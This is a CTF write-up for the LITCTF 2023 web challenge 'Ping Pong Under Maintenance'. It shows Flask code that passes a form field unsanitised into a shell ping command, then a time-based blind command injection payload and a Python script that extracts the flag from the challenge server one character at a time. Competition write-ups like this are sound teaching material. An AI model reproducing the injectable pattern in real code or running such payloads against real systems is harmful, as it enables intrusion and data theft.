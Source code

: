 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](attached/ping-pong-under-maintenance.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If the command ```grep "LIT" flag.txt``` finds the string ```"LIT"``` in ```flag.txt```, then the second command, ```sleep 5```, will be executed. This causes a delay before the response is returned.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)
```

The flag is
```
LITCTF{c4refu1_fr}
```